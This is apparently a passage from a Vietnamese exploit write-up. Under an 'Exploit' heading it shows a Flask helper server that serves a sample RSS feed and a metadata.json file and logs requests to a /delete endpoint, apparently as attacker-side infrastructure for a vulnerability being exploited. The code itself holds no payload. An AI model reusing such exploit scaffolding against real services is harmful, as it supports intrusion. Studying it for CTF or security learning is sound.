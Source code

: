 ## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, request, send_from_directory, Response
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/delete', methods=['GET'])
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/feed', methods=['GET'])
def feed():
    xml_content = """<?xml version="1.0" encoding="UTF-8"?>
    <rss version="2.0">
      <channel>
        <title>Example Feed</title>
        <link>https://example.com</link>
        <description>This is a sample RSS feed generated by Flask.</description>
        <item>
          <title>First item</title>
          <link>https://example.com/item1</link>
          <description>Hello world!</description>
        </item>
        <item>
          <title>Second item</title>
          <link>https://example.com/item2</link>
          <description>Another entry.</description>
        </item>
      </channel>
    </rss>"""
    
    return Response(xml_content, mimetype='application/xml')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```
